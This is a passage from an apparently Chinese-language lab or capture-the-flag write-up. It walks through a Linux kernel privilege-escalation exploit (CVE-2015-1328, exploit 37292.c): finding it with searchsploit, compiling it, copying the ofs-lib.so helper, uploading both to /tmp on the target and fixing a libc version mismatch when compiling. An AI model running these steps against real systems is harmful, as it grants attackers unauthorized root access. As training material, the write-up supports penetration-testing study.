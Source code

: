 查找看看

```cobol
searchsploit 3.13.0 linux
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/84d799186cbba6730a39d7c6c14f7a9e.png" alt="" style="max-height:161px; box-sizing:content-box;" />


提取出来

这里有个问题 因为机器不一样 所以so文件也不会相同

所以我们无法保证 靶机上也存在相同的os文件 并且靶机也不存在gcc

所以我们需要把exp和so一同传递上去

先修改源代码

删除这里（这里注释）



<img src="https://i-blog.csdnimg.cn/blog_migrate/c795423b4fad2e02e51a4987afa91456.png" alt="" style="max-height:361px; box-sizing:content-box;" />


然后gcc打包

```r
gcc -o exp 37292.c 
```

然后我们去定位so文件

```cobol
find / -name ofs-lib.so 2>/dev/null
 
或者
 
locate ofs-lib.so
 
 cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so /mnt/c/Users/Administrator/Desktop/
```

然后我们直接上传到tmp

赋权执行



<img src="https://i-blog.csdnimg.cn/blog_migrate/b5a619984e710b69a7d51a54303034bd.png" alt="" style="max-height:47px; box-sizing:content-box;" />


这里报错了 这里说明我的 kali中动态链接库太高了 这里我们可以使用

ldd --version

确定靶机ldd 然后去下载 解压 并且在编译的时候选择

```cobol
gcc -o exp 37292.c -Ldir  /mnt/c/Users/Administrator/Desktop/ldd-2.19/libc6_2.19-0ubuntu6_amd64/data/lib/x86_64-linux-gnu/libc.so.6
```
